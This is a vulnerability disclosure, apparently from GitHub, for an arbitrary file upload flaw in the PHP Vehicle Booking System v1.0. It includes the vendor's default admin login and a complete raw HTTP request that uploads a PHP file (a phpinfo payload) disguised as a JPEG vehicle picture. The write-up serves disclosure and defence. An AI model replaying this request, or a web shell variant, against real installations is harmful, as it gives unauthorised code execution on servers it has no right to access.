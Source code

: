 ## Vulnerability Description

Arbitrary file upload vulnerability in [Vehicle Booking System v1.0](https://codeastro.com/vehicle-booking-system-in-php-with-source-code/) allows attackers to execute arbitrary code via the file upload to admin-add-vehicle.php. It is an open source project from https://codeastro.com .

1. Vulnerability Submitter: Tr0e
  
2. vendors: [Vehicle Booking System in PHP with Source Code - CodeAstro](https://codeastro.com/vehicle-booking-system-in-php-with-source-code/)
  
3. The program is built using the xmapp/v3.3.0 and PHP/8.1.10 version;
  
4. Vulnerability location: /VehicleBooking-PHP/admin/admin-add-vehicle.php
  

# Vulnerability Verification

[+] Payload:

```php
<?php phpinfo();?>
```

POC：

```js
POST http://192.168.0.120:91/VehicleBooking-PHP/admin/admin-add-vehicle.php HTTP/1.1
Host: 192.168.0.120:91
Content-Length: 895
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.120:91
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryHwRD9k9A7fnBXCiu
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.120:91/VehicleBooking-PHP/admin/admin-add-vehicle.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=ldi7mdlvm8g7bnfhunuvrhp8ne
Connection: close

------WebKitFormBoundaryHwRD9k9A7fnBXCiu
Content-Disposition: form-data; name="v_name"

Test
------WebKitFormBoundaryHwRD9k9A7fnBXCiu
Content-Disposition: form-data; name="v_reg_no"

aaa
------WebKitFormBoundaryHwRD9k9A7fnBXCiu
Content-Disposition: form-data; name="v_pass_no"

111
------WebKitFormBoundaryHwRD9k9A7fnBXCiu
Content-Disposition: form-data; name="v_driver"

Demo User
------WebKitFormBoundaryHwRD9k9A7fnBXCiu
Content-Disposition: form-data; name="v_category"

Bus
------WebKitFormBoundaryHwRD9k9A7fnBXCiu
Content-Disposition: form-data; name="v_status"

Booked
------WebKitFormBoundaryHwRD9k9A7fnBXCiu
Content-Disposition: form-data; name="v_dpic"; filename="Tr0e.php"
Content-Type: image/jpeg

<?php phpinfo();?>
------WebKitFormBoundaryHwRD9k9A7fnBXCiu
Content-Disposition: form-data; name="add_veh"


------WebKitFormBoundaryHwRD9k9A7fnBXCiu--

```

## How to verify

1. Build the vulnerability environment according to the steps provided by the source code author.  
2. log in to the background management system through the default account and password（Email: admin@mail.com
  Password: codeastro.com）;
3. The vulnerability lies in the "Vehicles - Add - Add Vehicle" function, you should inserts Payload when you Add Vehicle, as shown in the following figure：
![image](https://user-images.githubusercontent.com/42080954/194755070-3e398a03-e58a-4a79-ba3f-5b87acba831b.png)
![image](https://user-images.githubusercontent.com/42080954/194755111-376a6264-7ea5-4b84-8bf6-c13a4bdf8d22.png)
![image](https://user-images.githubusercontent.com/42080954/194755134-f39eebbc-ac0d-47cf-b334-76eec7e95a9e.png)



